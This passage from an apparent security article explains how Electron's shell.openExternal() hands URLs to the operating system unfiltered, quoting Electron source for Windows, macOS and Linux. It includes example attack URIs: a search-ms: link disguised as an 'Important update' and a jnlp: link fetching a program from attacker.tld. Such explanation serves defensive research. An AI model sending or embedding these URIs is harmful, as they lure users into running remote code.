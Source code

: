   ```
  search-ms:query=procmon.exe&crumb=location:%5C%5Clive.sysinternals.com%5Ctools&displayname=Important%20update
  ```

  <video controls autoplay loop><source src="/vid/shell-openexternal-dangers/windows-search-ms.mp4" type="video/mp4"></video>
* If Java, which is often bundled with LibreOffice for example, is installed on the system, the attacker could also use the `jnlp:` protocol to launch a remote Java application like this (this does display a warning, though):

  ```
  jnlp:https://attacker.tld/program.jnlp
  ```

## Digging deeper into how shell.openExternal() actually opens URLs

If you want to research this topic further, it is useful to know how URLs are actually opened by `shell.openExternal()`. Unsurprisingly, this also differs by the operating system:

* On Windows, [a separate thread is opened](https://github.com/electron/electron/blob/dcbed18f44a11f239f4d9bddefdb6291dc20d5bb/shell/common/platform_util_win.cc#L339-L348) (omitted here for brevity), the URL is surrounded with double quotes and then directly and without any filtering passed into [`ShellExecuteW()`](https://docs.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutew) (Code taken from [here](https://github.com/electron/electron/blob/dcbed18f44a11f239f4d9bddefdb6291dc20d5bb/shell/common/platform_util_win.cc#L236-254)):
  
  ```cpp
  std::string OpenExternalOnWorkerThread(const GURL& url,
      const platform_util::OpenExternalOptions& options) {
    // […]
    base::string16 escaped_url = L"\""
        + base::UTF8ToUTF16(url.spec()) + L"\"";
    // […]
    ShellExecuteW(nullptr, L"open", escaped_url.c_str(), nullptr,
                  working_dir.empty() ? nullptr : working_dir.c_str(),
                  SW_SHOWNORMAL)) <= 32)
    // […]
  }
  ```
* On macOS, the call is [put onto an asynchronous dispatch queue](https://github.com/electron/electron/blob/75fd9a349698dc131f5f3c21fd1cff68f0224467/shell/common/platform_util_mac.mm#L99-L118) (omitted here for brevity), where it is passed directly into `NSWorkspace#openURLs()` (Code taken from [here](https://github.com/electron/electron/blob/75fd9a349698dc131f5f3c21fd1cff68f0224467/shell/common/platform_util_mac.mm#L31-L54)):
  
  ```objectivec
  std::string OpenURL(NSURL* ns_url, bool activate) {
    // […]  
    NSUInteger launchOptions = NSWorkspaceLaunchDefault;
    if (!activate) launchOptions |= NSWorkspaceLaunchWithoutActivation;
  
    bool opened = [[NSWorkspace sharedWorkspace] openURLs:@[ ns_url ]
                                  withAppBundleIdentifier:nil
                                                  options:launchOptions
                           additionalEventParamDescriptor:nil
                                        launchIdentifiers:nil];
    // […]
  }
  ```
* On Linux, the URL is passed directly and without any filtering into `xdg-open` (Code taken from [here](https://github.com/electron/electron/blob/3e8d77d564f3f18abbd97ae9fd3a4cd417612b45/shell/common/platform_util_linux.cc#L93-L105). The `XDGOpen()` function is a wrapper that ultimately directly calls  `xdg-open [url]`):
  